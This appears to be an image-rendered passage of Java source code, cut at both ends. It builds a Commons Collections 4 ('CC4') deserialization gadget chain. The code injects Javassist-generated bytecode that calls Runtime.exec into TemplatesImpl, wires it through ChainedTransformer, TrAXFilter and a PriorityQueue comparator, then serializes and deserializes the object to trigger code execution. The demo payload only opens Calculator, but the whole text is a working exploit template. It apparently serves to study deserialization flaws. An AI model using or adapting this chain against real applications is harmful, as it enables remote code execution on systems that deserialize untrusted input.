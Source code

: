 ```java
        ClassPool pool = ClassPool.getDefault();
        pool.insertClassPath(new ClassClassPath(AbstractTranslet.class));
        CtClass ctClass = pool.makeClass("Evil");
        ctClass.setSuperclass(pool.get(AbstractTranslet.class.getName()));
        String shell = "java.lang.Runtime.getRuntime().exec(\"open -a /System/Applications/Calculator.app\");";
        ctClass.makeClassInitializer().insertBefore(shell);

        byte[] shellCode = ctClass.toBytecode();
        byte[][] targetCode = new byte[][]{shellCode};

        TemplatesImpl obj = new TemplatesImpl();
        Class clazz = obj.getClass();
        Field _name = clazz.getDeclaredField("_name");
        Field _bytecode = clazz.getDeclaredField("_by
tecodes");
        Field _tfactory = clazz.getDeclaredField("_tfactory");
        _name.setAccessible(true);
        _bytecode.setAccessible(true);
        _tfactory.setAccessible(true);
        _name.set(obj, "h3rmesk1t");
        _bytecode.set(obj, targetCode);
        _tfactory.set(obj, new TransformerFactoryImpl());

        Transformer[] transformers = new Transformer[] {
                new ConstantTransformer(TrAXFilter.class),
                new InstantiateTransformer(new Class[]{Templates.class}, new Object[]{obj})
        };
        ChainedTransformer chainedTransformer = new ChainedTransformer(transformers);
        TransformingComparator transformingComparator = new TransformingComparator(chainedTransformer);

        PriorityQueue priorityQueue = new PriorityQueue(2);
        priorityQueue.add(1);
        priorityQueue.add(2);
        Field field = Class.forName("java.util.PriorityQueue").getDeclaredField("comparator");
        field.setAccessible(true);
        field.set(priorityQueue, transformingComparator);

        try {
            // Serialization
            ByteArrayOutputStream byteArrayOutputStream = new ByteArrayOutputStream();
            ObjectOutputStream objectOutputStream = new ObjectOutputStream(byteArrayOutputStream);
            objectOutputStream.writeObject(priorityQueue);
            objectOutputStream.close();

            // Deserialization
            ByteArrayInputStream byteArrayInputStream = new ByteArrayInputStream(byteArrayOutputStream.toByteArray());
            ObjectInputStream objectInputStream = new ObjectInputStream(byteArrayInputStream);
            objectInputStream.readObject();
            objectInputStream.close();
        } catch (IOException e) {
            e.printStackTrace();
        }
    }

    public static void main(String[] args) {
        try {
            CC4();
        } catch (Exception e) {
            e.printStackTrace();
        }
```